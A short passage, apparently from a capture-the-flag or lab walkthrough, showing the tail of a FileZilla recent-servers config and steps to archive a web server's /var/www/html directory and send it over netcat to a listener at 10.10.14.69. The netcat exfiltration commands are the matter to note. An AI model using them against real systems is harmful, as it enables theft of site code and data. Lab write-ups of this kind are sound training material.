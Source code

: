 ```
            <EncodingType>Auto</EncodingType>
            <BypassProxy>0</BypassProxy>
        </Server>
    </RecentServers>
</FileZilla3>
```

## Get the /var/www/html files

- in /var/www wrap html first

> tar -czf html.tar.gz html

*Server*

> cat html.tar.gz | nc 10.10.14.69 *port*

*Client*

> nc -lvnp *port* -q 1 > html.tar.gz < /dev/null

